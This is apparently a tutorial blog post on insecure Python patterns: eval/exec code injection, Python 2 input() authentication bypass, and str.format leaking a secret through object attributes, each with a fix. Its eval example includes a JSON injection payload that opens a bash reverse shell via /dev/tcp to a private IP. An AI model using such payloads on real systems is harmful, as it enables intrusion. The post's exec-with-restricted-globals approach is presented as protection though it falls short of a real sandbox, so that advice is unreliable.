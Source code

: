 Python has become immensely useful in cyber security as it supports and performs a multitude of cyber security functions such as malware analysis, scanning, penetration testing, etc. However, it's very easy to make a mistake in any Python code and make the program vulnerable.

> It's possible to create a secure program using a programming language that is full of vulnerabilities, and it's also possible to create a vulnerable program using a programming language that's designed to be secure.

In this tutorial, I'll help you avoid those mistakes which might make your program vulnerable.

![We are in GIF](https://media.giphy.com/media/3oKIPcqmx1mpCOJJp6/giphy.gif)

### Dangerous functions

Some functions are dangerous that can be used to perform a sort of code injection or an authentication bypass. Let's put ourselves in the hacker's shoes to think like him and learn how to protect our code.

#### Eval()

Python’s `eval()` gives you the ability to pass a string to execute it as code. For example, `eval("2 ** 8")` will return `256`.
Let's make a simple python app:

```python
def addition(x, y):
  return eval("%s + %s" % (x, y))

result = addition(2, 4)
print(result)
```

This is a very simple calculator, which gives you the sum of two numbers. If you execute the code, then you will have `6` as a result.

Now let's turn this calculator to an application that uses JSON to pass user input:

```python
def addition(x, y):
  return eval("%s + %s" % (x, y))

result = addition(request.json['x'], request.json['y'])
print("Our result is %d." % result)
```

If we pass `{"x":"2", "y":"4"}` as our previous code, then the result will be `6` of course. But if we provide something else like:

```python
{"x":"__import__('os').system('bash -i >& /dev/tcp/10.0.2.15/8080 0>&1')#", "y":"4"}
```

This malicious code will force our calculator to call `os.system` then spawn a [reverse shell](https://www.sans.edu/student-files/presentations/LVReverseShell.pdf) to the IP "10.0.2.15" on PORT "8080".

> It is a private network address and it is not accessible from the internet.

#### Exec()

This function is similar to `eval()` which executes a string or a code object:

```python
code = 'x = 2\ny=4\nprint("result =", x+y)'
exec(code)
```

The output will be `6`. And you can exploit it in the same way as we did before.

Now if you want to use those functions, you have to check which methods and variables the user is allowed to use by:

```python
exec('print(dir())')
```

The output is:

```bash
['In', 'Out', '_', '__', '___', '__builtin__', '__builtins__', '__doc__', '__loader__', '__name__', '__package__', '__spec__', '_dh', '_i', '_i1', '_i2', '_i3', '_i4', '_i5', '_i6', '_i7', '_i8', '_ih', '_ii', '_iii', '_oh', 'addition', 'exit', 'get_ipython', 'quit', 'result']
```

A lot of those variables and methods that are accessible may not be necessary for your code. Therefore, you can restrict it for users by passing optional `locals` and `globals` parameters to the method.

For example:

```python
from math import *
exec('print(dir())')
```

Then the output will be:

```
['In', 'Out', '_', '__', '___', '__builtin__', '__builtins__', '__doc__', '__loader__', '__name__', '__package__', '__spec__', '_dh', '_i', '_i1', '_i10', '_i11', '_i2', '_i3', '_i4', '_i5', '_i6', '_i7', '_i8', '_i9', '_ih', '_ii', '_iii', '_oh', 'acos', 'acosh', 'addition', 'asin', 'asinh', 'atan', 'atan2', 'atanh', 'ceil', 'copysign', 'cos', 'cosh', 'degrees', 'e', 'erf', 'erfc', 'exit', 'exp', 'expm1', 'fabs', 'factorial', 'floor', 'fmod', 'frexp', 'fsum', 'gamma', 'gcd', 'get_ipython', 'hypot', 'inf', 'isclose', 'isfinite', 'isinf', 'isnan', 'ldexp', 'lgamma', 'log', 'log10', 'log1p', 'log2', 'math', 'modf', 'nan', 'pi', 'pow', 'quit', 'radians', 'remainder', 'result', 'sin', 'sinh', 'sqrt', 'tan', 'tanh', 'tau', 'trunc']
```

If we pass an empty dictionary as `globals`, then only the `__builtins__` will be available to the object. That means if you try to access any of the functions which are available by the math module, then it will raise an exception:

```python
from math import *
exec('print(dir())', {})
```

The output is:
```python
['__builtins__']
```

If you want to provide a specific methods to use, then you need to do the following:

```python
from math import *

func = input("Enter the math function:")
try:
     exec(func, {"squareroot": sqrt,"__builtins__": None, "print": print})
        
except Exception as ex:
     print(ex)
```

This will give the user the ability to execute the `sqrt` method by using `squareroot()`. However, if he tries to use `sqrt()` then it will raise an exception. And he can't use any of the __builtins__ functions except `print()`.

Now if we run our code and pass `print(squareroot(16))` as input. Then the result will be `4`.

But if we try to use `print(max(1,2))` which is a built-in function and is not accessible to the exec() function. Then the result will be:

```python
'NoneType' object is not subscriptable
```

#### Input()

You can find this vulnerability only in [Python 2](https://www.python.org/downloads/release/python-272/), not in [Python 3](https://www.python.org/downloads/).

This function in Python 2 takes the value type, as it is without changing its type.

```python
secret = 5
number = input("Guess the secret number")
if number==secret:
    print("YES")
else:
    print("NO")
```

Now we have a secret number, and we want the user to guess it. If we pass `5` then the result will be `YES` and otherwise it will be `NO`. But, if we pass `secret` then the result will be `YES` because the Python conditional now is:

```python
if secret==secret: // This will be true
```

And just like that, you can pass any password leading to authentication bypass. Also, there are a lot of other ways to exploit this function.

To fix this issue, you need to use `raw_input()` instead of `input()` while you are using Python 2. `raw_input()` will convert any given input by the user to a string. If you are using Python 3, you don't have to worry about it since the `input()` is the same as the `raw_input()`.

### String formatting exploiting

This can be a very dangerous method because it might lead the hackers to authentication bypass and provide access to sensitive information. So how does this really work?

Let's build a simple app, assume that *CONFIG* contain sensitive information like an *API keys*:

```python
CONFIG = {
    "KEY" : "SECRET_KEY"
}

class info:
    def __init__(self, first, last):
        self.first = first
        self.last = last

def getName(some_str, peopleinfo_obj):
    return some_str.format(peopleinfo_obj = peopleinfo_obj)

people = info('Ahmad', 'Mardeni')

stri = input()
getName(stri, peopleinfo_obj = people)
```

Now if the user passes the following as input:

```python
Name_is_{peopleinfo_obj.first}_{peopleinfo_obj.last}
```

Then the output will be:

```python
'Name_is_Ahmad_Mardeni'
```

But if he passes the following as input:

```python
{peopleinfo_obj.__init__.__globals__[CONFIG][KEY]}
```

Then our sensitive information will be compromised and the output will be:

```python
'SECRET_KEY'
```

That happened because the string formatting function has the ability to access attributes objects. 

And the question now; is it still good to use `str.format()`? Yes, but you have to be aware that it becomes vulnerable when it is used with user-controlled strings.

### Conclusion

We learned about the dangerous functions `eval()`, `exec()`, and `input()`, how hackers can use them to hack your Python code, and finally, how to protect yourself against them. You also have to pay attention to vulnerabilities besides the language-specific ones, like [XSS](https://owasp.org/www-community/attacks/xss/), [SQL injection](https://www.w3schools.com/sql/sql_injection.asp), etc...

Till next time, happy coding Pythonistas!

![Cat coding GIF](https://media.giphy.com/media/LmNwrBhejkK9EFP504/giphy.gif)

### Further reading

1. [Exploiting Python pickles](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
2. [YAML Deserialization Attack in Python](https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf?utm_source=dlvr.it&utm_medium=twitter)

